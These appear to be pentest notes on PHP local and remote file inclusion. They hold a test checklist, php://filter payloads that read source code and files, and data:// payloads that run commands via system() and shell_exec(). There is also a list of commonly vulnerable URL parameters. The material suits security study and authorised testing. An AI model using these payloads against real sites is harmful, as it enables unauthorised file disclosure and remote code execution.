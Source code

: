 #### Testing

1. Invalid input
2. Regular page - index.php
3. Imply filter `php://filter/convert.base64-encode/resource=` to exfiltration of `php` source code, or file included
4. Host a remote file and test for remote file inclusion
	1. Wrappers `http://`, `ftp://`
	2. `expect://`

#### Vulnerable Functions 
| Language | LFI/RFI | Function | Caveats | RTFM |
| ---- | ---- | ---- | ---- | ---- |
| [[Vulnerable-PHP-Functions]] | Both | `include()` | `badquery?file=` then `php://filter/convert.base64-encode/resources=` | https://www.php.net/manual/en/function.include.php |
|  |  |  |  |  |

#### PHP Wrappers

- PHP Wrappers - [[PHP-Filters]]
	- [RTFM PHP Wrappers](https://www.php.net/manual/en/wrappers.php)
	- `php://filter` - [https://www.php.net/manual/en/wrappers.php.php](https://www.php.net/manual/en/wrappers.php.php)
		- `php://filter/resource=secret.txt`
		- `php://filter/convert.base64-encode/resource=secret.txt`
	- `data://` - [https://www.php.net/manual/en/wrappers.data.php](https://www.php.net/manual/en/wrappers.data.php)
		- To exploit the `allow_url_include` setting needs to be enabled. 
			- Reference: [https://www.php.net/manual/en/filesystem.configuration.php](https://www.php.net/manual/en/filesystem.configuration.php)
		- `data://text/plain,<?php%20echo%20system('ls');?> 

```php
?data:text/plain,<?php echo shell_exec("dir") ?>
?base64:
```

#### Parametres

[Hacktricks reference - TR Bug Hunters](https://twitter.com/trbughunters/status/1279768631845494787)
```
?cat={payload}
?dir={payload}
?action={payload}
?board={payload}
?date={payload}
?detail={payload}
?file={payload}
?download={payload}
?path={payload}
?folder={payload}
?prefix={payload}
?include={payload}
?page={payload}
?inc={payload}
?locate={payload}
?show={payload}
?doc={payload}
?site={payload}
?type={payload}
?view={payload}
?content={payload}
?document={payload}
?layout={payload}
```